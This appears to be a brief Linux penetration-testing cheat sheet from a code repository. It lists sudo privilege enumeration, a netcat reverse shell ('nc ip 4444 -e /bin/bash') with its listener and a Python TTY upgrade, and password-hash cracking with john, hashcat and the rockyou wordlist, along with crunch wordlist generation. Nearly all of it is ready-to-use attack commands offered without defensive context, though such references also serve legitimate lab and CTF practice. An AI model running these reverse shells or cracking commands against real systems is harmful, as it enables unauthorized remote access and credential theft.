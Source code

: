 # Linux

- [Sudo](#sudo)
- [Reverse Shell](#reverse-shell)
- [Hash Bruteforce](#hash-bruteforce)

## Sudo
```
sudo -l
```

## Reverse Shell
### Client
```
nc ip 4444 -e /bin/bash
```
### Server
```
nc -lp 4444
```
### TTY Support
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Hash Bruteforce
### john
```
john -format=md5crypt-long --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
### Hashcat
```
hashid hash.txt
```
```
hashcat -m 500 hash.txt /usr/share/wordlists/rockyou.txt
```
### Make Wordlist
```
crunch <minimum length> <maximum length> <charset> -t <pattern> -o wordlist.lst
```

## Editor
### Hexa
```
hexedit
```
